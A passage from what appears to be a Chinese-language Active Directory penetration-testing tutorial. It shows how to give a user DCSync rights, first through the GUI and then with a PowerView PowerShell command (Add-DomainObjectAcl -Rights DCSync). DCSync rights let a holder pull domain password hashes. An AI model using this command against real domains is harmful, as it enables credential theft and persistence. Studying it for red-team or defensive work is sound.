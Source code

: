 ![截图](ab59ce3fe83c7d5f283c34e57a864113.png)

然后就可以在这里看到 hack 用户具备的权限了。如图所示，点击应用——>确定，现在 hack 用户就具有 DCSync 权限了。

![截图](9bf152aed336b4b8590f711014de2da8.png)

#### （2）PowerShell 脚本赋予指定用户 DCSync 权限

也可以使用 Empire 下的 powerview.ps1 脚本执行如下命令赋予指定 test 用户 DCSync 权限。

```
Import-Module .\powerview.ps1;
Add-DomainObjectAcl -TargetIdentity 'DC=xie,DC=com' -PrincipalIde test -Rights DCSync -Verbose
```
